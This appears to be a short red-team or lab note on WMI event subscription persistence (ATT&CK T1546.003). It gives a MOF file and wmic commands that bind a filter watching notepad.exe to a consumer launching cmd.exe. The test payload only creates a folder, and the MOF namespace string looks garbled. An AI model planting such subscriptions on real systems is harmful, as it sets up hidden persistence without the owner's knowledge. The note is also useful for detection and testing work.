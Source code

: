 # T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription

## Keynote

Requires Admin Privilege  

Setting persistance by:

- Executing mofcomp.exe on specially crafted mof file
- Register WMI Event with CommandLineEventConsumer
- Register WMI Event with ActiveScriptEventConsumer

## Setting persistance

- `mofcomp.exe` <your_mof_file>.mof

```c++
#PRAGMA NAMESPACE (".rootsubscription")
instance of CommandLineEventConsumer as $Cons
{
    Name = "TESTING";
    RunInteractively=false;
    CommandLineTemplate="cmd.exe";
};
instance of __EventFilter as $Filt
{
    Name = "TESTING";
    EventNamespace = "rootsubscription";
    Query = "SELECT * FROM __InstanceModificationEvent Within 3"
        "Where TargetInstance Isa \"Win32_Process\" "
        "And Targetinstance.Name = \"notepad.exe\" ";
    QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding
{
     Filter = $Filt;
     Consumer = $Cons;
};
```

- WMI

```powershell
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="Testing", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 3 WHERE TargetInstance ISA 'Win32_Process' AND Targetinstance.Name='notepad.exe'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="Testing", ExecutablePath="C:\Windows\System32\cmd.exe",CommandLineTemplate="cmd /c powershell mkdir C:\Users\<USER_NAME>\Desktop\WMITEST"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"Testing\"", Consumer="CommandLineEventConsumer.Name=\"Testing\""
```

